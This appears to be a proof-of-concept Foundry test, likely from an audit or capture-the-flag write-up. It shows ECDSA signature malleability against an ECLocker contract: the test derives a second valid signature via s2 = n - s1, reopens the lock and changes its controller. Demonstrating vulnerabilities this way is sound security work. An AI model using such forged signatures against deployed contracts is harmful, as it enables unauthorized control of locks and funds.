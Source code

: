 ### Proof of code:
```solidity
contract ECLockerTest is Test {
    Impersonator public imp;
    address public nk_signer;
    uint256 private nk_signerPk;
    bytes32 public msgHash;
    uint256 public lockId;
    address public controller_nk;

    function setUp() public {
        nk_signerPk = 0xA11CE;
        nk_signer = vm.addr(nk_signerPk);
        imp = new Impersonator(0); //deploy the contract impersonator
        vm.startPrank(imp.owner());
        lockId = 1;

        //  Ethereum Signed Message Hash
        msgHash = keccak256(
            abi.encodePacked(
                "\x19Ethereum Signed Message:\n32",
                bytes32(lockId)
            )
        );

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(nk_signerPk, msgHash);
        bytes memory signature = abi.encodePacked(r, s, v);
        imp.deployNewLock(signature); //deploy the lock with Ethereum signed hash
        vm.stopPrank();
    }

    function testSignatureMalleability() public {
        ECLocker locker = imp.lockers(0); //EcLocker instance

        // Sign message again to get original signature
        (uint8 v1, bytes32 r1, bytes32 s1) = vm.sign(nk_signerPk, msgHash);

        // Duplicate signatres s in ECDSA graph: s2 = n - s1
        uint256 n = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141;
        bytes32 s2 = bytes32(n - uint256(s1));

        // Try using both valid signatures

        // First usage (original signature)
        vm.prank(nk_signer);
        locker.open(v1, r1, s1);
        // Second usage (malicious signature)
        // This should fail in a secure contract
        uint8 v2 = v1 == 27 ? 28 : 27;

        vm.prank(nk_signer);
        locker.open(v2, r1, s2); //  this should fail in a secure contract

        locker.changeController(v2, r1, s2, nk_signer); // this should fail in a secure contract
        assertEq(
            locker.controller(),
            controller_nk,
            "Controller should be changed"
        );
    }
}

```
